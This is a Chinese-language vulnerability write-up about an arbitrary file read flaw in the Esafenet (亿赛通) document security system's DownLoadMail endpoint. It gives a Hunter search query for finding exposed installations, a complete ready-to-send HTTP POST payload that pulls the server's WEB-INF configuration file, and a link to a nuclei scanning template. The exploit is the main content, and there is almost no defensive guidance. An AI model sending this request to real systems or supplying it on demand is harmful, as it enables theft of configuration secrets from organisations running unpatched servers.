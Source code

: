 # 亿赛通电子文档安全管理系统DownLoadMail存在任意文件读取漏洞

# 一、漏洞简介
亿赛通电子文档安全管理系统是一款电子文档安全加密软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产，对电子文档进行全生命周期防护，系统具有透明加密、主动加密、智能加密等多种加密方式，用户可根据部门涉密程度的不同（如核心部门和普通门），部署力度轻重不一的梯度式文档加密防护，实现技术、管理、审计进行有机的结合，在内部构建起立体化的整体信息防泄露体系，使得成本、效率和安全三者达到平衡，实现电子文档的数据安全。亿赛通电子文档安全管理系统DownLoadMail存在任意文件读取漏洞。

# 二、影响版本
+ 亿赛通电子文档安全管理系统

# 三、资产测绘
+ hunter`app.name="ESAFENET 亿赛通文档安全管理系统"`
+ 登录页面

![1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6.png](./img/qzeKmVZUxpzWRkIb/1693912211487-1ee3eb84-62a3-4c32-806a-6be32537dfb6-916900.png)

# 四、漏洞复现
```plain
POST /CDGServer3/esafenet/DownLoadMail HTTP/1.1
Host: {hostname}
Cookie: JSESSIONID=F0F476C5479EB3F01A61D1C7DF8ECB3F; JSESSIONID=0F2F97A8E40DE2E33C5922685B1BACEC
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

path=/WEB-INF/classes/&name=common.cfg.xml
```

![1703415481453-1b65cdf4-c6b9-46de-8457-e35141f47277.png](./img/qzeKmVZUxpzWRkIb/1703415481453-1b65cdf4-c6b9-46de-8457-e35141f47277-481265.png)

nuclei脚本

[亿赛通电子文档安全管理系统-downloadmail-文件读取.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1713621691094-966b96fe-5f06-4dd5-b160-becec33698b9.yaml)



> 更新: 2024-04-20 22:01:30  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wdt0bxk0o0adw6zu>